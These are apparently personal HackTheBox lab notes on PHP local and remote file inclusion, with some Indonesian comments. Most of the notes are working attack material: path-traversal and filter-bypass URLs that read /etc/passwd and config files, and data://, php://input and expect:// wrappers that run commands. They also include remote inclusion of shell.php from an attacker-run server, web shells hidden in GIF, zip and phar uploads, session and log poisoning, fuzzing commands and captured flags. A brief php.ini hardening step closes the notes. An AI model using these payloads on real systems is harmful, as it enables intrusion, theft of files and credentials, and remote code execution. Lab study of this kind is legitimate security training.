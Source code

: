 http://94.237.49.166:56586/index.php?language=../../../../etc/passwd
barry

http://94.237.49.166:56586/index.php?language=../../../../usr/share/flags/flag.txt
HTB{n3v3r_tru$t_u$3r_!nput}

languages//....//....//....//....//....//etc/passwd
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64

languages//....//....//....//....//....//flag.txt
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%66%6c%61%67%2e%74%78%74

HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}

fuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.251:45849/FUZZ.php
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 276ms]

http://83.136.253.251:45849/index.php?language=php://filter/read=convert.base64-encode/resource=configure

echo "hash" | base64 -d #decrypt
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}

php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"


echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

curl -s -X POST --data '<?php system($_GET["c-m-d"]); ?>' "http://94.237.62.195:45255/index.php?language=php://input&cmd=id" | grep uid

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls /
http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt

HTB{d!$46l3_r3m0t3_url_!nclud3}

##
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_includ

echo "<php? system($_GET['']); ?>"

sudo python3 -m http.server <LISTENING_PORT>
sudo python -m pyftpdlib -p 21
impacket-smbserver -smb2support share $(pwd)

10.129.29.114/index.php?language=http://10.10.15.82:8080/shell.php&cmd=id

http://10.129.29.114/index.php?language=http://10.10.15.82:8080/shell.php&cmd=cat%20/exercise/flag.txt
99a8fc05f033f2fc0cf9a6f9826f83f4

##

echo 'GIF8<?php system($_GET["c-m-d"]); ?>' > shell.gif

<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

echo '<?php system($_GET["c-m-d"]); ?>' > shell.php && zip shell.jpg shell.php
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["c-m-d"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

http://94.237.62.195:51553/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt
HTB{upl04d+lf!+3x3cut3=rc3}

##
PHPSESSID cookie value is nhhv8i0o6ua4g88bkdl9u1fdsd

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning #ini ketika user melakukan sesi jadi kita bisa mengintip sesi orang
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id

curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['c-m-d']); ?>"

http://83.136.253.251:46020/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E #tab 1
http://83.136.253.251:46020/index.php?language=/var/lib/php/sessions/sess_7a3mr9ipn6d3n052siu1emb3dm&cmd=pwd #tab 2
/var/www/html

HTB{1095_5#0u1d_n3v3r_63_3xp053d}

##
- Fuzzing Parameters
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

- LFI wordlists
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]

- Server Logs/Configurations
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.255.150:40951/index.php?FUZZ=value' -fs 2287 | grep -v 571
view

ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.255.150:40951/index.php?view=FUZZ' -fs 2287 | grep -v 515
../../../../../../../../../../../../../../../../../../../../../../etc/passwd

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u http://83.136.255.150:40951/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ/index.php -fs 2287 | grep -v 515
/var/www/html/ 

HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u http://83.136.255.150:40951/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ/index.php -fs 2287 | grep -v 515

../../../../../../../../../../../../../../../../../../../../../../etc/flag.txt
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u http://83.136.255.150:40951/index.php?

##
find / -name php.ini -type f 2> /dev/null

/etc/php/7.4/apache2/php.ini

sudo nano /etc/php/7.4/apache2/php.ini
disable_functions = system

sudo systemctl restart apache2
create sh.php in /var/www/html
```php
<?php
system('ls');
?>
```

sudo cat /var/log/apache2/error.log
PHP Warning:  system() has been disabled for security reasons in /var/www/html/test_system.php on line 2

system() has been disabled for **security** reasons.

##
php://filter/read=convert.base64-encode/resource=config
php://filter/read=convert.base64-encode/resource=index

view page source, lalu copy hasil index di dalam webnya yang (panjang itu)
lalu ubah di burp suite menjadi base64

